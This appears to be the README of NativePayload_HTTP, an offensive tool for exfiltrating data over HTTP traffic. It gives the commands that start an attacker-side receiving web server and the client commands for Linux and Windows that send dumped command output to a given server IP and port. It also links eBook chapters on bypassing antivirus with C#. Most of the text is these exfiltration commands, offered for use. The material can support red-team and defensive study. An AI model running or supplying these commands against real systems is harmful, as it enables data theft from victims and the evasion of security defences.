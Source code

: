 # NativePayload_HTTP
Data Exfiltration via HTTP Traffic (C# and Shell Script)

this code has two parts: 1.Server-Side and 2.Client-Side

Note:in server-side this code tested by Kali linux only! 

client-side tested by kali 2017-18 and ubuntu 14 also windows7 and 2012


# 1.Server-Side (linux only):
./NativePayload_HTTP.sh -exfilwebserver

# 2.Client-Side (linux):
./NativePayload_HTTP.sh  -dumpcmd  [ServerIPv4]  [Port]  [Internal-delay]

Example: ./NativePayload_HTTP.sh  -dumpcmd   192.168.56.1  80  0.4

# 2.Client-Side (windows):
NativePayload_HTTP.exe  -dumpcmd  [ServerIPv4]  [Port] 

Example: NativePayload_HTTP.exe  -dumpcmd  192.168.56.1 80 

# Note: for more information and help (step by step) , Please read these PDF files:

NativePayload_HTTP (Part1): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part1.pdf

NativePayload_HTTP (Part2): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part2.pdf
